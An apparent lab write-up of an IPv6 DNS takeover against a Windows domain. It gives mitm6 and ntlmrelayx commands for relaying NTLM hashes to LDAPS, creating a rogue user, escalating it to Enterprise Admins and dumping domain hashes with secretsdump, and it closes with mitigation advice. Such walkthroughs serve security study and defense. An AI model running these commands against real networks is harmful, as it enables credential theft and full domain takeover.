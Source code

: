 # What is IPv6?

IPv6, or Internet Protocol version 6, is the most recent version of the Internet Protocol (IP) that is used to identify and locate devices on a network. It is designed to succeed IPv4, which has been the predominant version of the IP for many years. 

# What is an IPv6 DNS Takeover Attack

In an IPv6 DNS Takeover attack, imagine trying to send a letter (data) to your friend and you instruct a mailman (DNS server) to deliver the letter to the right address. Now a thief (Attacker) intercepts the letter in transit and changes the destination address on the envelope (the DNS records), to their (the attacker) own address. This can happen because the attacker tricks the mailman (DNS server) into thinking the specified address is correct.

In a DNS takeover, the attacker typically exploits vulnerabilities in the DNS infrastructure or configuration to gain control over the DNS records associated with a domain. This enables the attacker to redirect traffic intended for a legitimate website or domain to a server under their control. Such actions can lead to various malicious activities, including phishing, malware distribution, or interception of sensitive information.

# Attack DEMO

**Tools needed to perform this attack:**

- ntlmrelayx - If you don't have kali linux, download this script https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py. Kali Linux comes preinstalled with impacket tools. You can start it up using the command `impacket-ntlmrelayx` or first of all locate the script using `locate ntlmrelayx` then specify the full path of the tool to start it:

![](attachments/20240305155204.png)

- mitm6 - Steps to install:
	-  git clone https://github.com/dirkjanm/mitm6.git
	- cd mitm6 
	- pip install -r requirements.txt
	- sudo python2 setup.py install
	- sudo mitm6 ✅

## Step 1: Start up ntlmrelayx and mitm6

ntlmrelayx:

![](attachments/20240304150525.png)
`impacket-ntlmrelayx -6 -t ldaps://DOMAIN-IP -wh fakewpad.DOMAIN.local -l loot`

The IP specified is the Domain IP address. The information dumped will be stored in a folder named loot.

mitm6:

![](attachments/20240304150712.png)

`sudo mitm6 -d DOMAIN.local`

Target Domain specified.

## Step 2: An Even Occurs in the Network

We need an event to trigger. For example, we can wait for a victim to restart their machine.
After an event is triggered, the victim's hash is captured and relayed to the Domain Controller to authenticate and information about the Domain is dumped

![](attachments/20240304151412.png)

Top is the **ntlmrelayx** and bottom is **mitm6**.

## Step 3: Inspect Loot

Information about the domain is dumped in the folder specified called `loot`

![](attachments/20240304151516.png)

Information is dumped in 3 different formats: JSON,HTML,GREP

![](attachments/20240304153934.png)

Now the event triggered was due to a system reboot which caused information about the domain to get dumped. What of an event like a user login was triggered instead?

## Another Event is triggered (Login)

A user logs in to a system as the Domain Administrator

![](attachments/20240304154232.png)

## Restart ntlmrelayx

After this event occurs, restart the ntlmrelayx and a Domain user will be automatically created.

![](attachments/20240304154510.png)
`username: OTCJytDYGp and password: Zf;vifJvQU56$cw`

Confirmation that the user was indeed created.

![](attachments/20240304154651.png)

Although this user is only a domain user.

![](attachments/20240304154723.png)

## Privilege Escalation

We can also escalate their privileges to **Domain Admin**:

![](attachments/20240304154822.png)

By adding `--escalate-user <username>` we can perform this action.

Next is to wait for another event to trigger and restart ntlmrelayx.

![](attachments/20240304155634.png)

This results in a successful Privilege Escalation of the user. The user has successfully been added to the Enterprise Admins Group.

![](attachments/20240304155816.png)
## Dumping Hashes

We can now dump hashes with our newly created user credentials

![](attachments/20240304161456.png)

`impacket-secretsdump -dc-ip DOMAIN-IP -just-dc DOMAIN.local/'username':'password'@DOMAIN-IP`

# Mitigation

**Mitigation Strategies:**

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4 -only environments. If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

2. If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc Service.

3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

